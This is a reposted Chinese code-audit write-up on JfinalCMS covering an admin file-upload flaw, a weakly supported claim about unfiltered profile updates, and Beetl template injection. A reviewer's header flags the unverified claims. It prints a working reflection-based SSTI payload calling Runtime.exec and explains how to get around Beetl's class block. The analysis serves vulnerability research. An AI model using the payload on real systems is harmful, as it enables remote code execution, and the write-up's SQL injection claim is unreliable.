## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台模板文件管理权限；个人资料修改需登录且非第三方需旧密码；Beetl反射调用启用

- **事实待核（1）**：未给CMS/Beetl具体版本或固定commit，申请CVE叙述无实际编号。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：上传大小默认16MB与后文maxSize0无限制互相冲突；限制大小不是防任意可执行类型上传的替代措施。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（3）**：个人资料段只展示getModel/参数化update和自ID检查，没有给被滥用字段/载荷/越权效果，不能据无字符过滤称SQLi。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（4）**：模板管理员写入+Beetl原生调用安全边界应说明；源码不等于全站任意用户SSTI。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（5）**：前文第三方上传披露链接缺article段、视频转码链接损坏；全文包含三类问题应拆实体。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 一次意外的代码审计 ----JfinalCMS 审计 - 先知社区

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8695)

   学了一两个月的 Java 代码审计，对一些审计有了一定了解了。所以决定审计一下 JavaWeb CMS，随便申请一下 CVE。  
   认真严肃的挑选了一波之后，我选择了这个 CMS，可能是缘分，也可能是好玩吧。主要看的是这个项目有 QQ 群，可以加群讨论一下问题，方便更好的研究。先加群不说别的。[gitee 地址](https://gitee.com/jflyfox/jfinal_cms)，[GitHub 地址](https://github.com/jflyfox/jfinal_cms)。  
[](../../.resource/remote/85b7a4e58e5399f51efbcd5142197e746dc871bf05529ad1fce857b0de18a38a.png)

  环境的搭建很简单，几种方式可以选择。第一种直接 git 项目的源码，idea 打开项目，然后 idea 会自动导入下载 maven。  
[](../../.resource/remote/8ca744e6146598d1113629b5c1cf9011d7870c12b4ef7146f7bd1ac8fb623da7.png)  
第二种方式是去 GitHub 或者 Gitee 上下载发行版。  
[gitee 下载地址](https://gitee.com/jflyfox/jfinal_cms/releases)  
[github 下载地址](https://github.com/jflyfox/jfinal_cms/releases)

   [Arbitrary file upload vulnerability](https://samny.blog.csdn.net//details/105385042) 文件上传漏洞存在于管理员后台中的模板管理。

[](../../.resource/remote/50e7bc31c96e34e6a81619ec75d45cee73ece3f251a6a8157a5c4b226b13c825.png)  
[](../../.resource/remote/c8b0806f50c0a9fef0af6ef507da075821c1e55e970a3d00b18c334073207274.png)  
[](../../.resource/remote/1cc8101fe2dd25be3118c30c9fa511f14b345159e6a506faf47b3021e3c7205b.png)

漏洞分析
----

   断点调试，断点设置在`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManagerController.java`模板页面的操作的都是由 FileManangerController.java 控制。

1.  `HttpServletRequest request = getRequest();`有点 Java 知识的人都认识这个, 所以第一个断点设置在这里。  
    [](../../.resource/remote/7ce96badb8855bc0edbf1ec7a398f240f0357c20ad702fb61623a5a2e4ec626a.png)
2.  第二个断点，审计的上传漏洞，肯定设置在上传方法里。  
    [](../../.resource/remote/a0245e98f2bb7b0372c3db8e7ca9001258928931ddaaf5175a0a293bc21c0e71.png)

### 漏洞源码

`判断是否为空的操作`

```
public JSONObject add() {
        Iterator<?> it = this.files.iterator();
        if (!it.hasNext()) {
            this.error(lang("INVALID_FILE_UPLOAD"));
            return null;
        }
```

   项目主说这里修改一下就好了，但默认是这样子的，可见开发者自以为是可以防止任意上传文件漏洞，但其实这里默认是这样子设置。  
[](../../.resource/remote/f2cf6b372c546b50ed2fa7a4afdf7d0e571059cdd658bbdc0e3ee1050fd80978.png)  
   默认设置是一次最多上传 5 个文件，文件大小不超过 16MB。  
[](../../.resource/remote/599ab0e6a4745b4a697defed092de4c353b9ae146ddd500506b4d7273f98e748.png)

```
long maxSize = NumberUtils.parseLong(MAX_SIZE);
                    if (getConfig("upload-size") != null) {
                        maxSize = Integer.parseInt(getConfig("upload-size"));
                        if (maxSize != 0 && item.getSize() > (maxSize * 1024 * 1024)) {
                            this.error(sprintf(lang("UPLOAD_FILES_SMALLER_THAN"), maxSize + "Mb"));
                            error = true;
                        }
                    }
```

   这里 maxSize 是默认为 0。  
[](../../.resource/remote/5ab9268bf3f541f45472ac901390a33577250c4e75d21a9bc30184e704a4facb.png)  
[](../../.resource/remote/f368451879137eff69b8002535ec8b0475c2def9657ea8c1bbebda14dea8e285.png)  
   下面的一段代码是判断是否只能上传图片，在配置文件`E:\Soures\jfinal_cms\src\main\resources\conf\filemanager.properties`下可以看到文件复写和上传文件大小设置是为 0 的（`0代表的是没有限制`），默认是可以上传其他文件（`upload-imagesonly=false`）。  
[](../../.resource/remote/934c6e8cbf7559e513b90c08954bca54f5febeb7a5f8290dee1e82728ad210eb.png)

```
if (!isImage(item.getName())
                            && (getConfig("upload-imagesonly") != null && getConfig("upload-imagesonly").equals("true") || this.params
                            .get("type") != null && this.params.get("type").equals("Image"))) {
                        this.error(lang("UPLOAD_IMAGES_ONLY"));
                        error = true;
                    }

                    if (error) {
                        break;
                    }
```

   创建临时文件，后面会用到。作用是先将上传的文件以临时文件的存放着，然后把复制到上传目录下，重新命名删除临时文件。

```
tmpFile = new File(this.fileRoot + TMP_PATH + "filemanager_" + System.currentTimeMillis() + ".tmp");
                    File filePath = tmpFile.getParentFile();
                    if (!filePath.exists()) {
                        filePath.mkdirs();
                    }
                    item.write(tmpFile);
                }
            }

        } catch (Exception e) {
            logger.error("INVALID_FILE_UPLOAD", e);
            this.error(lang("INVALID_FILE_UPLOAD"));
        }
```

   文件上传后的操作，也就是上面说到的复制重命名，最后将临时文件删除。

```
// file rename
        try {
            if (!error && tmpFile != null) {
                String allowed[] = {".", "-"};

                if ("add".equals(params.get("mode"))) {
                    fileInfo = new JSONObject();
                    String respPath = "";

                    String currentPath = "";
                    String fileName = params.get("_fileName");
                    String filePath = "";
                    try {
                        currentPath = params.get("currentpath");
                        respPath = currentPath;
                        currentPath = new String(currentPath.getBytes("ISO8859-1"), "UTF-8"); // 中文转码
                        currentPath = getFilePath(currentPath);
                    } catch (UnsupportedEncodingException e) {
                        e.printStackTrace();
                    }
                    filePath = FileManagerUtils.rebulid(this.fileRoot + currentPath);

                    LinkedHashMap<String, String> strList = new LinkedHashMap<String, String>();
                    strList.put("fileName", fileName);
                    fileName = (String) cleanString(strList, allowed).get("fileName");

                    if (getConfig("upload-overwrite").equals("false")) {
                        fileName = this.checkFilename(filePath, fileName, 0);
                    }

                    File saveFile = new File(filePath + fileName);
                    tmpFile.renameTo(saveFile);

                    fileInfo.put("Path", respPath);
                    fileInfo.put("Name", fileName);
                    fileInfo.put("Error", "");
                    fileInfo.put("Code", 0);
                } else if ("replace".equals(params.get("mode"))) {
                    fileInfo = new JSONObject();
                    String respPath = "";

                    String fileName = "";
                    String newFilePath = "";
                    String saveFilePath = "";

                    try {
                        newFilePath = params.get("newfilepath");
                        newFilePath = new String(newFilePath.getBytes("ISO8859-1"), "UTF-8"); // 中文转码
                        respPath = newFilePath.substring(0, newFilePath.lastIndexOf("/") + 1);
                        fileName = newFilePath.substring(newFilePath.lastIndexOf("/") + 1);
                        newFilePath = getFilePath(newFilePath);
                    } catch (UnsupportedEncodingException e) {
                        e.printStackTrace();
                    }

                    saveFilePath = FileManagerUtils.rebulid(this.fileRoot + newFilePath);
                    File saveFile = new File(saveFilePath);

                    LinkedHashMap<String, String> strList = new LinkedHashMap<String, String>();
                    strList.put("fileName", fileName);
                    fileName = (String) cleanString(strList, allowed).get("fileName");

                    if (getConfig("upload-overwrite").equals("false")) {
                        fileName = this.checkFilename(saveFile.getParent(), fileName, 0);
                    }

                    if (saveFile.exists()) {
                        // before bakup
                        bakupFile(saveFile);
                        // delete src file
                        saveFile.delete();
                    }

                    tmpFile.renameTo(saveFile);

                    fileInfo.put("Path", respPath);
                    fileInfo.put("Name", fileName);
                    fileInfo.put("Error", "");
                    fileInfo.put("Code", 0);
                } else {
                    this.error(lang("INVALID_FILE_UPLOAD"));
                }

            }
        } catch (Exception e) {
            logger.error("INVALID_FILE_UPLOAD", e);
            this.error(lang("INVALID_FILE_UPLOAD"));
        }

        // 临时文件处理
        if (tmpFile.exists()) {
            tmpFile.delete();
        }

        return fileInfo;

    }
```

总结
--

1.  开发者需要通过限制上传文件大小来限制一些文件的上传，但默认配置是没有限制，很可能是开发者为了自己开发方便，但最后忘记修改设置。
2.  上传文件，判断是否是上传图片之后，没有在做其他判断限制，然后导致任意文件上传漏洞。
3.  配置文件中默认是不开启`filemanager.upload-imagesonly`需要使用者手动设置。
4.  开发者仅仅在前端做了文件上传的白名单，后端没有没有进行校验，导致黑客可以绕过前端验证，上传任意恶意文件。（前端验证本文没有体现，但真的做了限制，有详情的童鞋可以去看看。）

[](../../.resource/remote/270a2ec94cb17734ec906021068639054e8986ada467bda2e2d82909c990641d.png)  
[](../../.resource/remote/49cb733893d219a12cd143d032e8d4d9c3c950e55b02de6e2d942a548d646ace.png)  
[](../../.resource/remote/a26ade24351bacb914a98c591c1bb5aad559663c8a48fce74296a0d4ae1e22cc.png)

漏洞分析
----

   漏洞源码存在于`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\front\controller\PersonController.java`  
   第一部分功能有以下几个：

1.  将提交数据 Json 化
2.  根据用户 Session 判断用户 id（数据库内的 id）
3.  判断旧密码和新设置的密码是否正确
4.  判断 Email 的格式是否正确
    
    ```
    public void save() {
         JSONObject json = new JSONObject();
         json.put("status", 2);// 失败
    
         SysUser user = (SysUser) getSessionUser();
         int userid = user.getInt("userid");
         SysUser model = getModel(SysUser.class);
    
         if (userid != model.getInt("userid")) {
             json.put("msg", "提交数据错误！");
             renderJson(json.toJSONString());
             return;
         }
    
         // 第三方用户不需要密码
         if (user.getInt("usertype") != 4) {
             String oldPassword = getPara("old_password");
             String newPassword = getPara("new_password");
             String newPassword2 = getPara("new_password2");
             if (!user.getStr("password").equals(JFlyFoxUtils.passwordEncrypt(oldPassword))) {
                 json.put("msg", "密码错误！");
                 renderJson(json.toJSONString());
                 return;
             }
             if (StrUtils.isNotEmpty(newPassword) && !newPassword.equals(newPassword2)) {
                 json.put("msg", "两次新密码不一致！");
                 renderJson(json.toJSONString());
                 return;
             } else if (StrUtils.isNotEmpty(newPassword)) { // 输入密码并且一直
                 model.set("password", JFlyFoxUtils.passwordEncrypt(newPassword));
             }
         }
    
         if (StrUtils.isNotEmpty(model.getStr("email")) && model.getStr("email").indexOf("@") < 0) {
             json.put("msg", "email格式错误！");
             renderJson(json.toJSONString());
             return;
         }
    ```
    
       `model.update();`方法是更新数据，将信息写入数据库。具体实习方法可以下一部分代码。  
    [](../../.resource/remote/1aa238420cf33ff252068e3bb0661547ee04445253bf60376444ec03b852c8e5.png)
    

```
model.update();
        UserCache.init(); // 设置缓存
        SysUser newUser = SysUser.dao.findById(userid);
        setSessionUser(newUser); // 设置session
        json.put("status", 1);// 成功

        renderJson(json.toJSONString());
    }
```

   首先方法会进行一个判断，然后创建一个 sql 语句。

```
public boolean update() {
        filter(FILTER_BY_UPDATE);

        if (_getModifyFlag().isEmpty()) {
            return false;
        }

        Table table = _getTable();
        String[] pKeys = table.getPrimaryKey();
        for (String pKey : pKeys) {
            Object id = attrs.get(pKey);
            if (id == null)
                throw new ActiveRecordException("You can't update model without Primary Key, " + pKey + " can not be null.");
        }

        Config config = _getConfig();
        StringBuilder sql = new StringBuilder();
        List<Object> paras = new ArrayList<Object>();
        config.dialect.forModelUpdate(table, attrs, _getModifyFlag(), sql, paras);

        if (paras.size() <= 1) {    // Needn't update
            return false;
        }
```

   创建数据库连接，更新数据。 可以看到执行完这步就会更新数据库内容。（`利用MySQL语句监控，可以看到最下面的一条是执行的sql语句`）  
[](../../.resource/remote/0b885e245cbc4648d3521e10d236cc839397f8bb27c5f0e785c100a7d4b8aced.png)  
[](../../.resource/remote/8f558c84d4431a7ed3bb82e408c9410ab1751e9140e55583e0ad64bac0048842.png)

```
// --------
        Connection conn = null;
        try {
            conn = config.getConnection();
            int result = Db.update(config, conn, sql.toString(), paras.toArray());
            if (result >= 1) {
                _getModifyFlag().clear();
                return true;
            }
            return false;
        } catch (Exception e) {
            throw new ActiveRecordException(e);
        } finally {
            config.close(conn);
        }
    }

    /**
```

总结
--

1.  我们可以看到整个数据更新的过程，我们没有看到任何的防护措施，过滤字符手段。

前言
--

   感谢长亭科技大佬 @Lilc 耐心指导，这个漏洞也是这位大佬挖的，我只是漏洞复现并给大家分享一下笔者构造 SSTI 模板注入漏洞 payload 经验。

[](../../.resource/remote/ea0c7439aeed16f10a5d38a1893afa71cf74815bfde1cd5188a8e87789d1491e.gif)  
   漏洞存在的位置在管理员后台模板修改下，可以修改模板代码，插入恶意代码等操作。插入一段恶意代码可导致远程代码执行。

### 漏洞详情

[](../../.resource/remote/c6a8c64e241b71c0676f196d5bf26ce1e0ee4f3f51f691708ae6d1f7eb781cb5.png)  
[](../../.resource/remote/45960349af4c8f0ced0bc93dc8a91aa408772eed7e6373d33c3b9a61c62a13a4.png)

### 漏洞分析

   点击保存页面的首先会进入到`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManagerController.java`然后判断请求方法，是 POST 方法会判断是 upload 还是 saveFile，如果是 saveFile 方法会跳转到`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManager.java`中的 saveFile 方法。  
[](../../.resource/remote/332b1dfcbfcc9ff103f7d769fe26a96af43cadcd972eed50c896f39b07dd1035.png)

```
public JSONObject saveFile() {
        JSONObject array = new JSONObject();

        try {
            String content = this.get.get("content");
            content = FileManagerUtils.decodeContent(content);

            // before bakup
            bakupFile(new File(getRealFilePath()));

            FileManagerUtils.writeString(getRealFilePath(), content);
            array.put("Path", this.get.get("path"));
            array.put("Error", "");
            array.put("Code", 0);
        } catch (JSONException e) {
            logger.error("JSONObject error", e);
            this.error("JSONObject error");
        } catch (IOException e) {
            logger.error("IOException error", e);
            this.error("IOException error");
        }
        return array;
    }
```

   前期可以修改代码机制我们已经了解的很清楚了，没有做任何的防护措施。但这些远远达不到 SSTI 的要求。`判断一个系统或者CMS是否使用了任何一个模板引擎`，先有比较大众 Java 模板引擎有 Velocity，Freemarker，而这款模板引擎是 beetl，挖掘之间根本没有了解过。据查阅知道，这是一款国产的模板引擎。[官方地址](http://ibeetl.com/)，官网说有很多优势，感觉一般般，吹牛的水分比较大吧。在研究这个模板的时候，官方给[文档](http://ibeetl.com/guide/#/beetl/)真的很差，有些东西说的一知半解没有说清楚。  
[](../../.resource/remote/19fb0d2dd44af385f3533b316c69946f2cbb72aae497efac765372f154eb8b9a.png)  
[](../../.resource/remote/7d18652df74ae5a2b3624c2f7309569aa0a2142d2a9a555b72f0dca5a463f890.png)

#### 知识补充

   查阅官方文档，了解这款模板引擎调用 Java 方法和属性模式。  
[](../../.resource/remote/41e5c908a2d4faa63e0803eddcc05da238389609be59078204a71a9f9c56e118.png)  
   本文构造 payload 得有简单 Java 的反射机制基础。[推荐文章](https://www.cnblogs.com/haha12/p/4724204.html)，文章中用了一个简单案例再现了 Java 的反射。[推荐文章](https://blog.csdn.net/SECURE2/article/details/81099574?depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1&utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1), 文章用很多解释是关于 Java 反射和类加载的知识内容。[新增] [推荐视频](https://www.bilibili.com/video/BV1s4411U7x9?from=search&seid=13854513651556834308)  
[video(video-hkteTk7M-1587384668444)(type-bilibili)(url-[https://player.bilibili.com/player.html?aid=63805421)(image-https://ss.csdn.net/p?http://i0.hdslb.com/bfs/archive/3ea308d0ab04ed422f45dc47274940762348f4fa.jpg)(title-【Java 反射机制】不懂反射机制不配当 java 程序员?](https://player.bilibili.com/player.html?aid=63805421)(image-https://ss.csdn.net/p?http://i0.hdslb.com/bfs/archive/3ea308d0ab04ed422f45dc47274940762348f4fa.jpg)(title-%E3%80%90Java%E5%8F%8D%E5%B0%84%E6%9C%BA%E5%88%B6%E3%80%91%E4%B8%8D%E6%87%82%E5%8F%8D%E5%B0%84%E6%9C%BA%E5%88%B6%E4%B8%8D%E9%85%8D%E5%BD%93java%E7%A8%8B%E5%BA%8F%E5%91%98?))]

#### Payload 构造

   这里笔者将 payload 拆解了，方便更好的解读一下 payload。由于 beetl 模板引擎禁止了`java.lang.Runtime`和`java.lang.Process`，所以这里不能直接调用进程来达到远程代码执行的效果。这里采用 Java 反射机制来达到效果，当然也有其他的方法，比例写文件等。读者们可以自行尝试。

```
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

   **先忽视上面的 payload，下面会一步步解答，最后完整的 payload**  
[](../../.resource/remote/a3cadd5c06b0d79d49f6bdfcf2ca635ec94f3a8ba53625a20af8f9baa62da4e0.png)

1.  我们且看第一行，按照上面给出简单案例方法，我们应该这样子就可以了`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(newInstance(),"calc")`
2.  但是直接 String.class 直接写模板是找不到的，所以我们得继续构造 payload，将 String.class 转化`@java.lang.Class.forName("java.lang.String")`的形式，然后 payload 就变成下面这样子了。`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(newInstance(),"calc")`
3.  照道理上面就可以直接使用了，但是呢 Runtime 类没有无参构造方法，因此不能使用 newInstance() 方法来实例化。只能通过调用 getRuntime() 方法来进行实例化。所以 newInstance() 得替换成`@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null)`最终 payload 就变成了下面这样子。
    
    ```
    ${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
    ```
    

   遇到使用了模板的解析 CMS 可以根据模板解析语言尝试执行命令，若遇到函数警用的情况可以尝试一些 Bypass 方法，比例一些反射、反序列化、字节码修改等。SSTI 注入难的其实如何构造 Payload，构造好了之后一切自然而然了。

[http://ibeetl.com/guide/#/beetl/basic?id=%e7%9b%b4%e6%8e%a5%e8%b0%83%e7%94%a8java%e6%96%b9%e6%b3%95%e5%92%8c%e5%b1%9e%e6%80%a7](http://ibeetl.com/guide/#/beetl/basic?id=%e7%9b%b4%e6%8e%a5%e8%b0%83%e7%94%a8java%e6%96%b9%e6%b3%95%e5%92%8c%e5%b1%9e%e6%80%a7)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
